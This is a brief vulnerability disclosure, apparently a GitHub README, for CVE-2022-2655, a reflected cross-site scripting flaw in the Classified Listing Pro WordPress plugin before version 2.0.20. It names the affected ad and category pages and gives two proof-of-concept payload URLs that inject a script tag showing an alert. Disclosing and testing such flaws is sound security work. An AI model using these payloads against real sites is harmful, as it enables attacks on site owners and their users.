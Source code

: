 ## 😼 CVE-2022-2655

Classified Listing Pro < 2.0.20 - Reflected Cross-Site Scripting

## Description
After creating an ad using the Classified Listing Pro plugin, the ads menu, categories and subcategories become vulnerable to Reflected Cross Site Scripting (XSS)

<b>To reproduce the failure, it is necessary to create at least one category and one ad</b>

## Proof of Concept:

  <img src="https://raw.githubusercontent.com/geozin/CVEs/main/CVE-2022-2655/POC%202-aLT.gif"/>
  
<b>Payloads</b>
```
https://<TARGET>/all-ads/?"><script>alert("Hacking Force")</script>
https://<TARGET>/all-properties/?"><script>alert("Hacking Force")</script> 
```
